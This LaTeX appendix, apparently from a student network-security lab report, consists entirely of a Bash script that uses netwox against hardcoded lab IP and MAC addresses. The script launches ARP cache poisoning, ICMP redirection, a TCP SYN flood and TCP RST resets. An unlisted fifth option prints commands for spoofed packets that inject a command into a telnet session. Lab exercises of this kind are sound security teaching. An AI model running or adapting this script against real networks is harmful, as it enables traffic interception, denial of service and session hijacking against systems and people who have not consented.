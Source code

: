 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\newpage
\begin{appendices}



\section{Shell script for performing attack\label{script1}}

\lstset{
	captionpos=b,
	frame=single,
	language=Bash,
	breaklines=true,
	caption="Script for performing ARP ICMP and SYN attacks",
	label=parta:script
}
\begin{lstlisting}

#!/bin/bash
sudo -v

echo "Type 1 for ARP; 2 for ICMP; 3 for SYNflood; 4 for RST"
read answer

VICTIM_IP='10.0.2.4'
VICTIM_MAC='08:00:27:a6:eb:87'

ATTACKER_IP='10.0.2.6'
GATEWAY='10.0.2.1'
ATTACKER_MAC='08:00:27:ee:0d:0f'

PORT=23
INT='eth7'

ATT=netwox

# Netwox tool numbers
ARP_TOOL=33
SYN_TOOL=76
ICMP_TOOL=86
RST_TOOL=78

echo "Victim ip is " $VICTIM_IP
echo "Victim mac is " $VICTIM_MAC
echo "Gateway is" $GATEWAY
echo "Attacker IP is" $ATTACKER_IP
echo "Attacker MAC is" $ATTACKER_MAC

case $answer in
5)

echo '40 --ip4-dontfrag --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-src 10.0.2.5 --ip4-dst 10.0.2.4 --ip4-opt "" --tcp-src 51296 --tcp-dst 23 --tcp-seqnum 906520802 --tcp-acknum 937587335 --tcp-ack --tcp-psh --tcp-window 6912 --tcp-opt "" --tcp-data "7077640d00" --spoofip "best"'

echo 'netwox 40 --ip4-dontfrag --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-src 10.0.2.5 --ip4-dst 10.0.2.4 --ip4-opt "" --tcp-src 51296 --tcp-dst 23 --tcp-seqnum 906520807 --tcp-acknum 937587340 --tcp-ack --tcp-psh --tcp-window 6912 --tcp-opt "" --spoofip "best"'


;;
4)
echo 'sudo' $ATT $RST_TOOL '-d' $INT '-i' $VICTIM_IP
sudo $ATT $RST_TOOL -d $INT -i $VICTIM_IP
;;
3)
echo 'sudo' $ATT $SYN_TOOL '-i' $VICTIM_IP '-p' $PORT
echo 'SYN Flood on machine at address' $VICTIM_IP 'on port' $PORT
sudo $ATT $SYN_TOOL -i $VICTIM_IP -p $PORT
;;

2)
echo 'IMCP redirection attack:'
echo 'sudo' $ATT $ICMP_TOOL '-d' $INT '-g' $ATTACKER_IP '-c' 0 '-i' $VICTIM_IP
sudo $ATT $ICMP_TOOL -d $INT -g $ATTACKER_IP -c 5 -i $VICTIM_IP 
;;
1)
sudo $ATT $ARP_TOOL -d $INT -b $VICTIM_MAC -g $GATEWAY -h $VICTIM_MAC -i $ATTACKER_IP
;;
*)
echo "Unknown option"
esac

\end{lstlisting}


\end{appendices}
\end{document}
